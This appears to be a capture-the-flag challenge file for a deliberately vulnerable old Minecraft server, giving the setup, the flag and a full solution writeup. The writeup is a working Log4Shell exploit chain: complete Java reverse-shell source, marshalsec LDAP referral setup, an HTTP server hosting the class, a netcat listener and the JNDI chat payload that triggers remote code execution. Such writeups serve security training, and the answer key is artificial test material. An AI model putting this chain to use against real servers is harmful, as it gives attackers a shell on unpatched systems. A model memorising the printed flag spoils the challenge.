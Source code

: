 # Mine

### Description

You wanna play spleef with me on my new Minecraft server?

Flag format: `pctf{}`

### Difficulty

Hard

### Flag

`pctf{whos_joe?_joe_mama_haha_g0ttem}`

### Hints

The Minecraft version is awfully old, I wonder if it has any vulnerabilities.

### Author

Andy Smith

### Tester

### Setup

[https://gmuedu-my.sharepoint.com/:u:/g/personal/asmit22_gmu_edu/Efege-JFC5dNrDKU5bHYeHoBeXGZaUcmJq4mIhCMHUshqw?e=dbdfr4](https://gmuedu-my.sharepoint.com/:u:/g/personal/asmit22_gmu_edu/Efege-JFC5dNrDKU5bHYeHoBeXGZaUcmJq4mIhCMHUshqw?e=dbdfr4)

Requires Docker.

You need to mount two volumes that container the cache and java binary. This was done to save overall space so containers aren't each storing the minecraft jars and java binaries.

For the hosted challenge, the port is 25565 and the volumes JSON string will be:

```json
{"/home/ubuntu/challenges/mine/zulu8.31.0.1-jdk8.0.181-linux_x64": {"bind": "/bin/java", "mode": "ro"}, "/home/ubuntu/challenges/mine/cache": {"bind": "/home/joe/Documents/minecraft/cache", "mode": "ro"}}
```

Example of testing it (will run on a random port):

```bash
sudo docker run --rm -d -p 0.0.0.0::25565 -v /home/andy/mc/zulu8.31.0.1-jdk8.0.181-linux_x64:/bin/java:ro -v /home/andy/mc/cache:/home/joe/Documents/minecraft/cache:ro mc_minecraft
```

### Writeup

You know we had to do a Minecraft log4j challenge. This uses a JNDI chat message to exploit the server.

This solution is going to require a reverse shell, so running on a VPS or other host with a public IP will be ideal.

First step is to try connecting to the server to understand what version it is. This shows that it's 1.16.5. Download Minecraft 1.16.5 and join the server. The server conveniently says that it's running OpenJDK 8u181.

You need to match that same JDK version. A lot of sources seem to have removed their older vulnerable versions, so the best source I found personally was Azul's JDKs. The direct link for 8u181 is [https://cdn.azul.com/zulu/bin/zulu8.31.0.1-jdk8.0.181-linux_x64.tar.gz](https://cdn.azul.com/zulu/bin/zulu8.31.0.1-jdk8.0.181-linux_x64.tar.gz). Extract that on a Linux system.

Then you need to get the marshalsec tool. Run a `git clone https://github.com/mbechler/marshalsec`.

Install maven to build marshalsec. `sudo apt install maven`. The Java version here doesn't matter since maven can build for prior versions.

Then cd into the marshalsec directory and build the jar: `mvn clean package -DskipTests`

Next, you need a payload. The following is a simple reverse shell:

```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="PUT YOUR IP HERE";
        int port=4444;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
```

Save that to `Exploit.java` (it's Java so the filename, class name, and constructor name all need to match).

Compile it with the Java 1.8 you downloaded, e.g. `./zulu8.31.0.1-jdk8.0.181-linux_x64/bin/javac Exploit.java`

That will make a `Exploit.class` file.

Now start an HTTP server so that the JNDI exploit can download the exploit class. `python3 -m http.server`

Run the marshalsec jar and specify your IP, e.g. `./zulu8.31.0.1-jdk8.0.181-linux_x64/bin/java -cp marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.1:8000/#Exploit"`

This will start the listener. The final prep is to run a netcat listener, such as `nc -lvnp 4444`.

Now, go back to the Minecraft server and send a chat message like `${jndi:ldap://172.17.0.1:1389/Exploit}`. Make sure the IP is yours and the port is the one the marshalsec listener prints when you start it.

This should work and you should get a shell. The current path will be `/home/joe/Documents/minecraft`. Navigate up to the Desktop directory and there will be a flag.txt.
